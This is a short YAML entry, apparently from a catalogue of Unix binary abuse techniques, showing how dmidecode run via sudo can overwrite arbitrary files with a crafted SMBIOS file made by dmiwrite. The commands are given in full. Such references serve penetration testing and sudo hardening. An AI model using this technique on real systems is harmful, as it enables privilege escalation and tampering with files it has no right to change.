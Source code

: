 ```yaml
---
functions:
  sudo:
    - description: |
        It can be used to overwrite files using a specially crafted SMBIOS file that can be read as a memory device by dmidecode.
        Generate the file with [dmiwrite](https://github.com/adamreiser/dmiwrite) and upload it to the target.

        - `--dump-bin`, will cause dmidecode to write the payload to the destination specified, prepended with 32 null bytes.

        - `--no-sysfs`, if the target system is using an older version of dmidecode, you may need to omit the option.

        ```
        make dmiwrite
        TF=$(mktemp)
        echo "DATA" > $TF
        ./dmiwrite $TF x.dmi
        ```
      code: |
        LFILE=file_to_write
        sudo dmidecode --no-sysfs -d x.dmi --dump-bin "$LFILE"
---
```

